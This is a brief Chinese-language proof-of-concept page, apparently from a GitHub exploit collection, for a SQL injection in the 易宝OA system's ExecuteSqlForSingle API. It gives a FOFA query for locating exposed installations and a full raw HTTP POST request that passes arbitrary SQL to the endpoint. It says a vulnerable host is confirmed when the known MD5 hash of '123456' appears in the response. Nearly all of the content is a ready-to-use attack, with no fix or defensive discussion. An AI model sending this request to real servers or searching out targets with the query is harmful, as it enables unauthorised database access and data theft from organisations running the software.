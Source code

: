 ## 易宝OA ExecuteSqlForSingle SQL注入漏洞

## fofa
```
product="顶讯科技-易宝OA系统"
```

## poc
```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
Host: IP:PORT
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 103

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&strParameters
```
发送poc 在返回包中存在 `e10adc3949ba59abbe56e057f20f883e` 字符为存在漏洞

